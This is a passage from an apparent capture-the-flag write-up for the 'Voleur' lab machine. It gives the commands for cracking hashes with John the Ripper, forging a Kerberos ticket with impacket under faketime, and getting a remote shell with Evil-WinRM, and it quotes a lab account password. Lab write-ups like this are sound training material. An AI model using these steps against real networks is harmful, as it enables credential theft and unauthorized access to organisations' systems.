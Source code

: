 ![11](/images/writeups/voleur/11.png)


Finally, we use **John the Ripper** to crack the hashes.

```
john -w=/usr/share/wordlists/rockyou.txt hashes
```

![12](/images/writeups/voleur/12.1.png)

We obtain a single **password**, and after testing which account it belongs to, we realize it is for **svc_winrm**.

Checking the **Excel** file, we see that this user has **Remote Management** permissions, so we can access the machine remotely using Evil-WinRM. To do this, we generate a new **TGT**, this time for the **svc_winrm** user.

```
faketime "$(ntpdate -q voleur.htb | awk '{print $1 " " $2}')" impacket-getTGT voleur.htb/'svc_winrm':'{SVC_WINRM-PASSWORD}'
export KRB5CCNAME=$PWD/svc_winrm.ccache
```

In this case, we edit ***/etc/krb5.conf*** because **Evil-WinRM** cannot resolve the **KDC** by domain name, and using the **IP** directly allows the connection to work correctly.

```
[libdefaults]
  default_realm = VOLEUR.HTB

[realms]
  VOLEUR.HTB = {
    kdc = 10.10.11.76
    admin_server = 10.10.11.76
  }

[domain_realm]
  .voleur.htb = VOLEUR.HTB
  voleur.htb = VOLEUR.HTB
```

```
faketime "$(ntpdate -q voleur.htb | awk '{print $1 " " $2}')" evil-winrm -i dc.voleur.htb -r voleur.htb
```

![13](/images/writeups/voleur/13.png)

We obtain the **User Flag**, located in the **Desktop** directory.

As seen earlier, the user **svc_ldap** belongs to the **RESTORE_USERS** group, so if we access it, we can restore the user **todd.wolfe**, identified in the **Excel** file, whose password was provided: `NightT1meP1dg3on14`.

The first step is to upload **RunasCS**, an executable that allows us to run commands as another user.
